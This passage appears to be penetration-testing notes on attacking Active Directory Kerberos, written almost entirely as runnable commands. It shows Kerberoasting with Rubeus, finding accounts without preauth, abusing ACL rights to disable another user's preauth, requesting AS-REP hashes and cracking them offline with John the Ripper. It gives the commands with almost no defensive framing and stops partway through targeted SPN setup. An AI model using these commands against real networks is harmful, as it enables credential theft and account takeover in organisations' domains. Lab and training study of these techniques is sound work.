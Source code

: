 `Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt`

## Kerberoasting - AS-REPs  you might face that in cases of Oracle,products,workstations that are not windows,or some vpn staff) Enumerating accounts with Kerberos Preauth disabled (https://github.com/HarmJ0y/ASREPRoast)
## Using PowerView:
`Get-DomainUser -PreauthNotRequired -Verbose`
## Using ActiveDirectory module:
`Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth`
## If our user has perimisions to Force disable Kerberos Preauth maybe on another user group we can do that : Let's enumerate the permissions for RDPUsers on ACLs using PowerView and disable pre-auth on Controlusers:
`Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}` 
`Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} –Verbose`
`Get-DomainUser -PreauthNotRequired -Verbose`

##  Request encrypted AS-REP for offline brute-force. Let's use ASREPRoast
`Get-ASREPHash -UserName VPN1user -Verbose`
## To enumerate all users with Kerberos preauth disabled and request a hash
`Invoke-ASREPRoast -Verbose`
## We can use John The Ripper to brute-force the hashes offline
`john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\asrephashes.txt`


## You can request TGS for every account SPN not set to null With enough rights (GenericAll/GenericWrite), a target user's SPN can be set to anything (unique in the forest and should be like " random/whoami1 " random would be the service name and whoami1 would be the FQDN of the target server) We can then request a TGS without special privileges. The TGS can then be "Kerberoasted"

## Let's enumerate the permissions for RDPUsers on ACLs using PowerView (dev):
`Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}`
## Using Powerview (dev), see if the user already has a SPN:
`Get-DomainUser -Identity supportuser | select serviceprincipalname`
## Using ActiveDirectory module:
`Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName`

